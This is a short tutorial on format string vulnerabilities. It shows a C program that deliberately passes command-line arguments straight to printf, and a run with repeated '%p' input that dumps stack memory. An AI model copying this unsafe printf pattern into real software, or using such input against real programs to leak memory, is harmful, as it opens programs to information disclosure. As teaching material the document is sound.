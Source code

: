 # Format String Vulnerability

Take a look at the following code:

```C
int main(int argc, char *argv[]) {

    printf("Welcome to %s\n", argv[0]);
    printf("You called the program with %d options. They are:\n", argc-1);

    if (argc > 1) {
        int j;
        for (j=1; j < argc; j++) {
        printf(argv[j]);
        printf("\n");
        }
    }
    return 0;
}
```

What would happen if we ran this command line program with an option like ```hello world```?

```
./formatstring hello world

Welcome to ./formatstring
You called the program with 2 options. They are:
hello
world
```

Works as intended!

But the dangerous bit (which is noted by the compiler by the way...) is the so-called naked format string in the following line:
```C
printf(argv[j]);
```

This can be abused by sending printf format options, the most common of which are ```%p``` or ```%x```.

Let's try spamming it with %p to dump memory:

```
./formatstring %p%p%p%p%p%p%p%p%p

Welcome to ./formatstring
You called the program with 1 options. They are:
0x10x10239d9100x16da6f7200x20x16da6f7000x19f403f280x00x00x0
```

And just like that we start dumping memory!
